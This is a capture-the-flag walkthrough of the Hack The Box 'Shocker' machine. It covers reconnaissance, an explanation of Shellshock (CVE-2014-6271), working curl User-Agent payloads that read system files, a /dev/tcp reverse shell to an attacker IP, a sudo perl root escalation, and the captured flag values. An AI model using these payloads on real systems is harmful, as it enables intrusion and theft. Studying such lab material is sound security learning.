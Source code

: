 # Shocker

## Reconnassance
### nmap 

```
nmap -sC -sV -oA shocker 10.129.228.8
```
![](./IMG/0.png)

- Open Port
    1. port 80 --- Apache httpd 2.4.18
    2. port 2222 --- OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

### WebSite

![](./IMG/1.png)
### Directory Fuzz

- Using gobuster --> failed
```
gobuster dir -u http://shocker.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.9.txt
```

![](./IMG/2.png)
- Using wfuzz, find some path with response code 403
```
wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 -u http://10.129.228.8/FUZZ
```

![](./IMG/3.png)
- The 403 code results include
    - ```.htaccess```
    - ```.hta```
    - ```.htpasswd```
    - ```cgi-bin/```
    - ```server-status```
- And one 200 code result: ```index.html```
- With cgi-bin and apache 2.4.18, I think it is possible to has Shellshock vulnerability
- Since the loophold might be a shellshock, and shellshock is a bash related vulnerability on apache with cgi-bin path exist.
- So I using wfuzz to fuzz the file under cgi-bin path. 
```
wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404,403 --sc 200 -u http://10.129.228.9/sgi-bin/FUZZ.sh
```

![](./IMG/4.png)
- Research on [shellshock vulnerability](https://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/)

### CVE-2014-6271 Shellshock 

- Shellshock makes achieving RCE as simple as:

> 1. Find a program that accepts input over the Internet
> 2. The input is processed and stored in an environment variable.
> 3. The program runs Bash

- Description: 
- Shellshock consists of several different vulnerabilities that relate to how Bash handles environment variables(Def in Bash: ```GREETING="Hello, World"```, the value "Hello, World" can be used again by typing ```$GREETING```).
These variables allow a user or script to define a value once and then reuse that value again by giving it's name.
- Loophold in Environment variables
>Environment variables can also accidentally leak into Bash because by default any environment variables set in the original process's environment will be set in Bash's environment. 
>This behavior can cause the unintended consequences of leaking sensitive information and create potential vulnerabilities.
- Advance to use
>Bash scripts can define functions that contain sections of code that can be reused. 
>A function is properly defined using the syntax: ```hello() { echo "Hello"; }```
>Bash scripts will define above script in an environment variable with ```hello=() { echo "Hello"; }```.
>This behavior allowed Bash scripts to export functions as environment variables and allow a sub-shell to use them. (This feature has been removed for modern versions of Bash)
- About ShellShock
>CVE-2014-6271, comes from how Bash implemented importing functions stored in environment variables.
>Whenever a new shell was created, it would automatically look through the environment variables for functions and import all of them. 
>For example, the variable ```hello=() { echo "Hello"; }``` would become ```hello() { echo "Hello"; }```. 
>However, CVE-2014-6271 observes that this behavior can be exploited by appending extra code to the end of the function definition.
>This vulnerability means that if attacker can store a malicious payload in an environment variable, they can achieve arbitrary code execution whenever a Bash shell is created. 
- Scan Sample 

>Sample 1
```
() { :; }; echo "pwned"
```
- The first half of this payload(before echo) is the definition of an anonymous function that does nothing. 
- The second half(echo one) is the malicious payload that will be executed when the function is imported. 
- Any arbitrary command or series of commands can be appended to the function definition to achieve arbitrary code execution.
- It like the line X() { :; }; echo "pwned" is passed to the Bash interpreter.

>Sample 2
```
() { :; }; ping -c 3 <ip>
```

![](./IMG/5.png)
- Attack on CGI example
```
curl -A "() { :;}; echo; /bin/cat /etc/passwd" <target>
```

![](./IMG/6.png)
## Exploit 

- According to above research, try the following payload to read ```/etc/passwd```

```
curl -A "() { :;}; echo; /bin/cat /etc/passwd" http://10.129.228.9/cgi-bin/user.sh -vv
```
- Now I know there is 2 user with bash (root, shelly)

![](./IMG/7.png)
- Let's check shelly's directory
```
curl -A "() { :;}; echo; /bin/ls -al /home/shelly" http://10.129.228.9/cgi-bin/user.sh -vv

```

![](./IMG/8.png)
- Read user flag
```
curl -A "() { :;}; echo; /bin/cat /home/shelly/user.txt" http://10.129.228.9/cgi-bin/user.sh -vv
```

![](./IMG/9.png)
- Try to create the permanent reverse shell
```
curl -A "() { :;}; echo; bash -c 'bash -i >& /dev/tcp/10.10.17.145/1337 ->&1'" http://10.129.228.9/cgi-bin/user.sh -vv
```

![](./IMG/10.png)
- Check Listener 
```
nc -nlvp 1337
```

![](./IMG/11.png)
- Get user flag: ```d6b79cfdaeb98a80f8011c430c75886f```

![](./IMG/12.png)

## Post Exploitation

- check user's privileges, check specific command 
```
sudo -l 
```

![](./IMG/13.png)
- Check [GTFObins](https://gtfobins.github.io/gtfobins/perl/) about how to escalate privilege by perl

![](./IMG/14.png)
### Privilege Escalation 

- So, let's try to escalate to root.
```
sudo perl -e 'exec "/bin/sh";'
```

![](./IMG/15.png)
- Get root flag: ```93296e82e87c41f75b8d2a17e27c15d4```

![](./IMG/16.png)

## Reference 

- [(Discussion)HTB discuss site](https://forum.hackthebox.com/t/shocker/66/11)
- [(Writeup)Hack The Box (HTB) - Shocker - Walkthrough](https://www.linkedin.com/pulse/hack-box-htb-shocker-walkthrough-abdulhakim-%C3%B6ner)

### Tools 
- [wfuzz usage](https://www.twblogs.net/a/5c8e8a3cbd9eee35cd6b1462)
- [wfuzz wordlists](https://github.com/xmendez/wfuzz/blob/master/wordlist/general/common.txt)
- [(HackTrick)wfuzz](https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz)
- [Reverse Shell Generator](https://www.revshells.com/)
- [GTFObins](https://gtfobins.github.io/gtfobins/perl/)


### CVE-2014-6271 Shellshock 
- [shellshock vulnerability](https://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/)
- [(GITHUB)comprehensive bashcheck test script](https://github.com/hannob/bashcheck)
- [(GITHUB)shellshock Introduction](https://github.com/jeholliday/shellshock)

### other
- [Count Lines in a File in Bash](https://www.baeldung.com/linux/bash-count-lines-in-file)


###### tags: `HackTheBox` `Easy` `ShellShock` `Apache` `cgi-bin` `bash` `perl` `environment` `linux`